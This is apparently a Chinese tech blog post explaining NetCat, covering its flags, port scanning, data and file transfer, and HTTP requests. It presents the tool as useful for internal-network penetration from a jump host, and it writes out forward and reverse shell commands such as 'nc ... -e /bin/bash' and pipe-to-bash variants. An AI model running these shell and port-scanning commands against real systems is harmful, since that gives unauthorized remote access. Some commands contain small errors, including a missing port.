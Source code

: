 ```yaml
---
title: 瑞士军刀--- NetCat 使用手册
toc: true
categories: Tech Blog
abbrlink: 8fb5a473
date: 2023-07-21 00:00:00
updated: 2023-07-21 00:00:00
---
```


## NetCat 简介

NetCat(nc)是一款强大的命令行网络工具，以体积小功能灵活而著称，被安全界与运维誉为瑞士军刀。最初由一位叫做 "霍比特人" 的网友 Hobbit 于 1995 年在 UNIX 上以源代码的形式发布, 现在有 GNU 版和 OpenBSD 两个版本，其中只有后者在还在维护。两者在功能上有一些差别，例如 OpenBSD 版没有通过-e 参数远端执行的功能。同时 NetCat 也有一些改进版本，例如集成进了 Nmap 的 Ncat(21 世纪的瑞士军刀)。NetCat 的不足之处在于他是明文传输且缺乏身份验证功能，而 Ncat 可以通过--allow 指定允许连接的机器，通过--ssl 参数进行数据的加密。而无论是 Ncat 还是 NetCat，他们的基本功能都有

- telnet / 获取系统 banner 信息
- 传输文本信息
- 传输文件和目录
- 加密传输文件
- 端口扫描
- 远程控制 / 正向 shell
- 流媒体服务器
- 远程克隆硬盘
其在各大发行版中均默认安装，且功能齐全而强大，在内网渗透中有重要的作用
<!--more-->

## NetCat 使用说明

### 常用参数

- -l ：开启监听
- -p ：指定端口
- -t ：以 telnet 形式应答
- -e ：程序重定向
- -n ：以数字形式表示 ip
- -v ：显示执行命令过程
- -z  不进行交互，直接显示结果
- -u ：使用 UDP 协议传输
- -w  设置超时时间

可以使用-h 获取更全面的参数列表与说明如下

命令|释义
----|-----
-G |设置路由器跃程通信网关，最多设置 8 个；
-h|在线帮助；
-i|延迟秒数：设置时间间隔，以便传送信息及扫描通信端口；
-l|使用监听模式，监控传入的资料；
-n|直接使用 ip 地址，而不通过域名服务器；
-o|输出文件：指定文件名称，把往来传输的数据以 16 进制字码倾倒成该文件保存；
-p|通信端口：设置本地主机使用的通信端口；
-r|指定源端口和目的端口都进行随机的选择；
-s|来源位址：设置本地主机送出数据包的 IP 地址；
-u|使用 UDP 传输协议；
-v|显示指令执行过程；
-w|超时秒数：设置等待连线的时间；
-z|使用 0 输入/输出模式，只在扫描通信端口时使用

## NetCat 常见用法

### 端口测试

公网上的端口扫描往往使用 Nmap，但是内网渗透时跳板主机上未必有 Nmap 这样的工具。这时 NetCat 体积小不易被发现方便传输的特性使得它成为了不二之选。我们在使用 nc 时常常跟上 **v** 和 **n** 两个参数，前者会列出执行过程的详细信息，后者可以只使用 ip 地址避免 dns 解析从而节省时间提高效率。初次以外, NetCat 可以使用 z 参数使用非交互式的方式运行，即不进行 io 交互直接执行命令
在进行端口扫描时，我们常使用 **nc -nvz [ip] [port]** 命令，port 可以写成一个范围，例如

```bash
nc -nvz 182.168.1.77 1-100 # 意为ping目标ip的1-100号端口

nc -v -v -w3 -z 192.168.1.77 8080-8083 # 两次-v使得报告更详细，扫描超时时间为3秒
```

z 参数默认使用 tcp 类型，可以加上新参数 u 使用 udp 扫描

### 信息传输

在跳板(ip 为 192.168.1.77)上使用

```bash
nc -l -p 8080 #监听8080端口 TCP协议
nc -u -l -p 8080 #监听8080端口 UDP协议
```

然后在我们的主机上

```bash
nc 192.168.1.77 8080 #使用TCP协议连接
nc -u 192.168.1.77 8080 #使用UDP协议连接
```

这样我们就可以在两台主机间实现会话了。这也是运维测试安全组策略或者 iptable 策略时常使用的方法。当然我们的目的不仅限于此。在电子取证的时候，为了不破坏现场而又需要提取出大量信息和文件分析时，可以将 NetCat 与管道配合使用，将一端的输出结果输出到另一端
Server(192.168.1.77)

```bash
nc -l -p 7777
```

Client(以 ls -l 为例)

```bash
ls -l | nc -nv 192.168.1.77
```

当然 Sever 端也可以讲内容定向输出到文件中如

```bash
nc -l -p 7777 > ls.txt
```

Client(以 ls -l 为例)

```bash
ls -l | nc -nv 192.168.1.77
```

### 文件传输

在进行上一种使用方法时，不难发现我们可以配合重定向实现文件传输的效果.例如
Server(192.168.1.77)

```bash
    nc -l -p 8080 > image.jpg
```

Client

```bash
    nc 192.168.1.77 8080 < image.jpg
```

你当然也可以把一整个目录压缩打包的方式传输目录。在传输时，也可以配合 pv 命令准确地测量带宽吞吐量地大小

### 远程控制

NetCat 同样还能实现正反向 Shell 的效果，即把信息传输与文件传输改为传输 shell 即可
正向 Shell
Server(192.168.1.77 )

```bash
nc -l -p 8080 -e /bin/bash
```

Client

```bash
nc 192.168.1.77 8080
```

反向 Shell
Client

```bash
nc -nv 192.168.1.77  8080 -e /bin/bash
```

Server(192.168.1.77 )

```bash
nc -l -p 8080
```

如果使用的时 OpenBSD 版本的 Netcat, 即在没有-e 命令的情况下，我们可以与管道或重定向配合实现同样的效果

```bash
nc -l -p 8080 | /bin/bash
nc 192.168.1.77 8080 | /bin/bash
```

## 模拟应用层协议

例如我们希望使用 NetCat 发送 HTTP 请求，我们可以配合管道以非交互式的方式发送 hTTP 请求

```bash
echo -e "GET /anything HTTP/1.0\r\nHost httpbin.org\r\n\r\n" | nc httpbin.org 80
```

或者使用标准输入以交互式的方式发送 HTTP 请求，以一个简单的 Get 请求为例

```bash
    nc httpbin.org 80
    GET /ip HTTP/1.0
    (回车)
    (回车)
```

## P

NetCat 正是这么一款通过命令行直接操作 tcp/udp 进行监听、连接与数据传输的工具。NetCat 的能力并不止于此，我们大可自己实现一款 NetCat, 并尝试加入一些流量混淆，加密解密以及权限控制的额外功能。NetCat 能干的事情还有很多，例如配合播放器实现流媒体功能，配合一些脚本之类的程序实现一个服务器例如 http 服务器或者代理服务器等等。每一位富有 Geek 精神的人都是 NetCat 绝活哥，我会将自己想到的有意思的 NetCat 用法或者扩展不断地更新到这篇博客中

## Reference

[Awesoome NetCat](https://github.com/7erryX/awesome-netcat)
